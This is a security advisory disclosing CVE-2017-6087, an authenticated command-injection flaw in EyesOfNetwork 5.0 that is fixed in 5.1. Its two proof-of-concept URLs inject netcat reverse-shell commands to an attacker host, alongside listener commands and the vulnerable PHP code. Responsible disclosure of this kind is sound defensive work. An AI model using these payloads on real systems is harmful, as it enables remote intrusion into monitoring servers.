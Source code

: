 # [CVE-2017-6087] EON 5.0 Remote Code Execution

## Description

EyesOfNetwork ("EON") is an OpenSource network monitoring solution.

## Remote Code Execution (authenticated)

The Eonweb code does not correctly filter arguments, allowing
authenticated users to execute arbitrary code.

**CVE ID**: CVE-2017-6087

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-78

**CVSS Base Score**: 7.6

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:L


### Proof of Concept 1

On the attacker's host, we start a handler:

```
nc -lvp 1337
```

The `selected_events` parameter is not correctly filtered before it is
used by the `shell_exec()` function.

There, it is possible to inject a payload like in the request below,
where we connect back to our handler:

```
https://eonweb.local/module/monitoring_ged/ged_actions.php?queue=history&action=confirm&global_action=4&selected_events%5B%5D=;nc%2010.0.5.124%201337%20-e%20/bin/bash;
```

#### Vulnerable code

The payload gets injected into the `$event[$key]` and `$ged_command`
variables of the `module/monitoring_ged/ged_functions.php` file, line 373:

```
$ged_command = "-update -type $ged_type_nbr ";
foreach ($array_ged_packets as $key => $value) {
  if($value["type"] == true){
    if($key == "owner"){
      $event[$key] = $owner;
    }
    $ged_command .= "\"".$event[$key]."\" ";
  }
}
$ged_command = trim($ged_command, " ");
shell_exec($path_ged_bin." ".$ged_command);
```

Two other functions in this file are also affected by this problem:

* `delete($selected_events, $queue);`
* `ownDisown($selected_events, $queue, $global_action);`


### Proof of Concept 2

On the attacker's host, we start a handler:

```
nc -lvp 1337
```

The `module` parameter is not correctly filtered before it is used by
the `shell_exec()` function.

Again, we inject our connecting back payload:

```
https://eonweb.local/module/index.php?module=|nc%20192.168.1.14%201337%20-e%20/bin/bash&link=padding
```

#### Vulnerable code

In the `module/index.php` file, line 24, we can see that our payload is
injected into the `exec()` function without any sanitization:

```
# Check optionnal module to load
if(isset($_GET["module"]) && isset($_GET["link"])) {

	$module=exec("rpm -q ".$_GET["module"]." |grep '.eon' |wc -l");

	# Redirect to module page if rpm installed
	if($module!=0) { header('Location: '.$_GET["link"].''); }

}
```


## Timeline (dd/mm/yyyy)

* 01/10/2016 : Initial discovery.
* 09/10/2016 : Fisrt contact with vendor.
* 23/10/2016 : Technical details sent to the security contact.
* 27/10/2016 : Vendor akwnoledgement and first patching attempt.
* 11/10/2016 : Testing the patch revealed that it needed more work.
* 16/02/2017 : New tests done on release candidate 5.1. Fix confirmed.
* 26/02/2017 : 5.1 release. Waiting for 2 weeks according to our
repsonsible disclosure agreement.
* 14/03/2017 : Public disclosure.

Thank you to EON for the fast response.

## Solution

Update to version 5.1

## Affected versions

* Version <= 5.0

## Credits

* Nicolas SERRA <n.serra@sysdream.com>

-- SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/ *
Twitter: @sysdream